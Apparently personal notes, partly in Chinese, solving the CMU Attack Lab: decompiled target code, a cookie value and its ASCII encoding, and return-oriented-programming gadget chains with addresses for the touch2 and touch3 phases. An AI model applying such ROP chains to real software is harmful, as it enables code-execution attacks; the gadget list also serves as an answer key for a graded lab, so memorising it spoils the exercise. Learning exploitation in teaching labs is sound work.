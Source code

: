 ## Attack lab  
### preparation  
进行ida 7.7 与8.3的杂交
main函数如下
~~~cpp
{

    int __fastcall main(int argc, const char **argv, const char **envp)
    {
    const char *v3; // rbp
    int v4; // r13d
    unsigned int v5; // r14d
    int result; // eax
    char v7; // al

    signal(11, (__sighandler_t)seghandler);
    signal(7, (__sighandler_t)bushandler);
    signal(4, (__sighandler_t)illegalhandler);
    if ( is_checker )
    {
        signal(14, (__sighandler_t)sigalrmhandler);
        alarm(5u);
        v3 = "hi:a:l:";
    }
    else
    {
        v3 = "hqi:";
    }
    infile = (FILE *)stdin;
    v4 = 0;
    v5 = 0;
    while ( 2 )
    {
        v7 = getopt(argc, (char *const *)argv, v3);
        if ( v7 == -1 )
        {
        initialize_target(v4, 0);
        if ( is_checker )
        {
            if ( v5 != authkey )
            {
            printf("Supplied authentication key 0x%x != target key\n", v5);
            check_fail();
            }
        }
        printf("Cookie: 0x%x\n", cookie);
        stable_launch(buf_offset);
        return 0;
        }
        else
        {
        switch ( v7 )
        {
            case 'a':
            v5 = strtoul(optarg, 0LL, 16);
            continue;
            case 'h':
            usage((char *)*argv);
            case 'i':
            infile = fopen(optarg, "r");
            if ( infile )
                continue;
            fprintf(stderr, "Cannot open input file '%s'\n", optarg);
            result = 1;
            break;
            case 'l':
            v4 = strtol(optarg, 0LL, 10);
            continue;
            case 'q':
            notify = 0;
            continue;
            default:
            printf("Unknown flag '%c'\n", (unsigned int)v7);
            usage((char *)*argv);
        }
        }
        break;
    }
    return result;
    }
}
~~~

0x25866403

32 35 38 36 36 34 30 33 x



4
要执行的第一条
cookie（以便于弹出）
    弹出到eax
第二条
    把eax移动到edi
目标(touch2)

五
1   rsp,rax     401a32
2   rax,rdi     401974


3   pop rax(输入的偏移量) 40196f
4    偏移量48
5   eax,ecx     4019e1
6   ecx,edx     4019d4
7   edx,esi     4019af

8   lea rdi,rsi,rax     4019a8
9   rax,rdi             401974

10   touch3              4018dd
11  cookie              25866403

+9*8 = 72d = 48x


0000000000401a30 <setval_436>:
  401a30:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)		    401a32: mov rsp,rax	        ///
  401a36:	c3                   	retq   
0000000000401972 <addval_130>:
  401972:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax		401974: mov rax,rdi	        ///
  401978:	c3                   	retq   

000000000040196b <setval_301>:                                                    
  40196b:	c7 07 6f e1 58 90    	movl   $0x9058e16f,(%rdi)		    40196f: pop rax     	    ///
  401971:	c3                   	retq                                         0x48
                                                                                
00000000004019de <addval_212>:
  4019de:	8d 87 50 89 c1 90    	lea    -0x6f3e76b0(%rdi),%eax		4019e1: mov eax,ecx	        ///
  4019e4:	c3                   	retq   
00000000004019d0 <addval_200>:
  4019d0:	8d 87 09 3b 89 ca    	lea    -0x3576c4f7(%rdi),%eax  		4019d4: mov ecx,edx	        ///
  4019d6:	c3                   	retq   
00000000004019ad <setval_216>:
  4019ad:	c7 07 89 d6 90 90    	movl   $0x9090d689,(%rdi)			4019af: mov edx,esi	        ///
  4019b3:	c3                   	retq   

00000000004019a8 <add_xy>:
  4019a8:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax			you surely want this	    ///
  4019ac:	c3                   	retq   
0000000000401972 <addval_130>:
  401972:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax		401974: mov rax, rdi    	///
  401978:	c3                   	retq   

                                                                    10   touch3              4018dd
                                                                    11  cookie              25866403

我直接进攻
401d19 <validate>

pop rax(输入的偏移量) 40196f
    3
1   rsp,rax     401a32
2   rax,rdi     401974


要输入char 的ascii字符！